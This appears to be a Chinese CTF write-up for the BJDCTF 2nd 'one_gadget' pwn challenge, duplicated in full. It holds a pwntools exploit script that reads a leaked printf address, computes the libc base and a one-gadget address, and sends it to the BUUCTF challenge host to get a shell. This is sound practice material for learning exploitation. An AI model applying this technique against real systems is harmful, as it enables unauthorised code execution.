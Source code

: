 ```yaml
---
title: One_gadget
categories: 
    - Stack
    - One_gadget
---
```

# One_gadget
<!--more-->
## [BJDCTF 2nd]one_gadget

ida看main函数

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201127174547573.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70)
再看init函数

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201127174608655.png)

会输出一个printf的地址

使用one_gadget，计算一下libc的基址
buuctf给了远程的libc文件，下载下来

```python
one_gadget [libcfilename]
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201127175251109.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70)

exp：

```python
from pwn import *
context.log_level='debug'
p=remote('node3.buuoj.cn',25812)

libc=ELF('./libc-2.29.so')

p.recvuntil('0x')
printf_addr = int(p.recv(12),16)

libc_base = printf_addr - libc.symbols['printf']
one_gadget = 0x106ef8
payload = libc_base + one_gadget

p.recvuntil('Give me your one gadget:')
p.sendline(str(payload))
p.interactive()

```

[BJDCTF 2nd]one_gadget
ida看main函数

在这里插入图片描述
再看init函数

在这里插入图片描述

会输出一个printf的地址

使用one_gadget，计算一下libc的基址
buuctf给了远程的libc文件，下载下来

one_gadget [libcfilename]
在这里插入图片描述

exp：

```py
from pwn import *
context.log_level='debug'
p=remote('node3.buuoj.cn',25812)

libc=ELF('./libc-2.29.so')

p.recvuntil('0x')
printf_addr = int(p.recv(12),16)

libc_base = printf_addr - libc.symbols['printf']
one_gadget = 0x106ef8
payload = libc_base + one_gadget

p.recvuntil('Give me your one gadget:')
p.sendline(str(payload))
p.interactive()

```
